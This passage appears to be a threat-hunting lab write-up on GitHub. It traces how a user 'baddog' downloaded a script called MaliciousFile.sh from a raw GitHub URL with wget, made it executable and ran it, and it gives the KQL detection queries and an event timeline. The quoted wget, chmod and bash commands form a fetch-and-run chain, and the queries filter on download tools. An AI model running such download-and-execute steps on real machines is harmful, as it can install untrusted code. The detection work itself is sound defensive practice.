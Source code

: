 This command downloaded a bash script titled "MaliciousFile".

At **Feb 4, 2025 10:15:37 AM**, the user **"baddog"** executed the following command on the device **"thlinux.p2zfvso05mlezjev3ck4vqd3kd.cx.internal.cloudapp.net"**:
```
chmod +x MaliciousFile.sh
```

This command allows this file to be executable.

At **Feb 4, 2025 10:15:44 AM**, the user **"baddog"** executed the following command on the device **"thlinux.p2zfvso05mlezjev3ck4vqd3kd.cx.internal.cloudapp.net"**:
```
/bin/bash ./MaliciousFile.sh
```

This command executes the file "MaliciousFile.sh"

**Query used to locate events:**

```kql
DeviceProcessEvents
| where InitiatingProcessFileName in ("wget", "curl", "bash", "python", "perl")
| project Timestamp, DeviceName, InitiatingProcessAccountName, InitiatingProcessAccountDomain, InitiatingProcessFileName, ProcessCommandLine
| order by Timestamp desc

DeviceProcessEvents
| where AccountName == "baddog"
| where InitiatingProcessFileName in ("wget", "curl", "bash", "python", "perl")
| project Timestamp, DeviceName, InitiatingProcessAccountName, InitiatingProcessAccountDomain, InitiatingProcessFileName, ProcessCommandLine
| order by Timestamp desc

DeviceProcessEvents
| where AccountName == "baddog"
| project Timestamp, DeviceName, InitiatingProcessAccountName, InitiatingProcessAccountDomain, InitiatingProcessFileName, ProcessCommandLine
| order by Timestamp desc
```

<img width="1212" alt="image" src="https://github.com/user-attachments/assets/cc3a9974-085f-430f-bcb5-70cc7fc8a53c">
<img width="1212" alt="image" src="https://github.com/user-attachments/assets/647b481c-00b5-4277-a200-76bd04f42014">

---

### Chronological Event Timeline

### 1. **File Download - Malicious Script Downloaded**
- **Time:** `Feb 4, 2025 10:14:39 AM`
- **Event:** The employee **"baddog"** downloaded a malicious script titled "MaliciousFile.sh".
- **Action:** File download detected.
- **File Path:** `MaliciousFile.sh`
- **Command:** 
    ```
    wget https://raw.githubusercontent.com/Goodka7/Threat-Hunting-Malicious-Execution-/refs/heads/main/resources/MaliciousFile.sh
    ```
